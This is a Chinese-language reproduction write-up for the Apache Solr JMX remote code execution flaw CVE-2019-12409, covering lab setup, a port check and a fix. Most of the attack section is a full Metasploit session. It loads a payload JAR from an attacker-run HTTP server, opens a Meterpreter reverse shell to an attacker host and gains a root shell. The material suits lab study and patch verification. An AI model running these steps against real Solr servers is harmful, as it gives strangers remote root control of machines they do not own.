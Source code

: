 # Apache Solr JMX服务 RCE  CVE-2019-12409

## 漏洞描述

Java ManagementExtensions（JMX）是一种Java技术，为管理和监视应用程序、系统对象、设备（如打印机）和面向服务的网络提供相应的工具。JMX 作为 Java的一种Bean管理机制，如果JMX服务端口暴露，那么远程攻击者可以让该服务器远程加载恶意的Bean文件，随着Bean的滥用导致远程代码执行。



## 影响版本

> [!NOTE]
>
> Apache Solr 8.1.1
>
> Apache Solr 8.2.0



## 环境搭建

[下载 Apache Solr 8.2.0](http://archive.apache.org/dist/lucene/solr/8.2.0/solr-8.2.0.zip)

也可以docker搭建

```
docker pull solr:8.2.0
docker run --name solr -d -p 8983:8983 -t solr:8.2.0
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可



## 漏洞复现

查看搭建的Solr是否存在漏洞,查看solr.in.sh配置文件中的ENABLE_REMOTE_JMX_OPTS选项设置是否为“Ture”，如果为Ture，则存在漏洞

查看漏洞端口18983是否开放

> [!NOTE]
>
> nmap xxx.xxx.xxx.xxx -p 18983

![](Apache-Solr-JMX服务-RCE-CVE-2019-12409.assets/16273634716791701.jpg)

```shell
root@kali:~/桌面# msfconsole
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Writing a custom module? After editing your module, why not try the reload command

msf5 > use exploit/multi/misc/java_jmx_server
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > set rhost 192.168.51.146
rhost => 192.168.51.146
msf5 exploit(multi/misc/java_jmx_server) > set rport 18983
rport => 18983
msf5 exploit(multi/misc/java_jmx_server) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > options

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS        192.168.51.146   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         18983            yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.51.149   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > run

[*] Started reverse TCP handler on 192.168.51.149:4444 
[*] 192.168.51.146:18983 - Using URL: http://0.0.0.0:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Local IP: http://192.168.51.149:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Sending RMI Header...
[*] 192.168.51.146:18983 - Discovering the JMXRMI endpoint...
[+] 192.168.51.146:18983 - JMXRMI endpoint on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Proceeding with handshake...
[+] 192.168.51.146:18983 - Handshake with JMX MBean server on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Loading payload...
[*] 192.168.51.146:18983 - Replied to request for mlet
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] 192.168.51.146:18983 - Executing payload...
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] Sending stage (53944 bytes) to 192.168.51.146
[*] Meterpreter session 1 opened (192.168.51.149:4444 -> 192.168.51.146:56234) at 2020-11-05 14:17:04 +0800

                                                                            
meterpreter >                                                                 
meterpreter > shell                                                            
Process 1 created.                                                              
Channel 1 created.                                                                
id                                                                                 
用户id=0(root) 组id=0(root) 组=0(root)  
```

![](Apache-Solr-JMX服务-RCE-CVE-2019-12409.assets/1627363471993025.jpg)

### 漏洞修复

将solr.in.sh配置文件中的ENABLE_REMOTE_JMX_OPTS选项设置为false，然后重启Solr服务。